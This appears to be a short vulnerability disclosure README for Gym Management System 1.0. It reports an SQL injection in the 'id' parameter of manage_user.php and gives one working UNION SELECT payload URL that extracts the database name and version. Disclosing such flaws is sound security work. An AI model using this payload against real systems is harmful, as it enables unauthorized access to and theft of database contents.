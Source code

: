 # Gym-Management-System  
* Exploit Title: Gym Management System 1.0 - 'id' SQL Injection  
*  Vendor Homepage: https://www.sourcecodester.com/php/14541/gym-management-system-using-phpmysqli-source-code.html  
* Software Link: https://www.sourcecodester.com/download-code?nid=14541&title=Gym+Management+System+using+PHP%2FMySQLi+with+Source+Code  
* Version: 1.0  
 
* parameter Vulnerable: id  
* Vulnerable file: manage_user.php  
![iamge](https://github.com/BigTiger2020/Gym-Management-System/blob/main/06.png)  
* payload: http://ip/gym/manage_user.php?id=-1+UNION+ALL+SELECT+NULL,GROUP_CONCAT(database(),version()),NULL,NULL,NULL--  
![iamge](https://github.com/BigTiger2020/Gym-Management-System/blob/main/05.png)   
